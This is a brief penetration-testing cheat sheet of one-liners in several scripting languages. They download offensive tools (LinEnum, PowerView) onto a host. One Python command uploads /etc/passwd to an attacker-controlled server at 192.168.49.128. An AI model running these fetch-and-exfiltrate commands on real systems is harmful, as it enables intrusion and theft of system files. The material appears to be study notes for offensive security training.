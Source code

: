 
# Downloading from URL with python
- `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

# Downloading from URL with PHP
- `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

# Downloading from URL with Ruby
- `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

# Downloading from URL with Perl
- `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

# Downloading from URL with Javascript
- `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

# Downloading from URL with VBScript
- `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`


# Uploading files with Python3
1. On the receiving machine
	- `python3 -m uploadserver `
2. On the sending machine
	- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`
		- `http://..../upload` -> target URL where we will uplaod the file
		- uploads the local file /etc/passwd from this machine to the one at 192...:8000

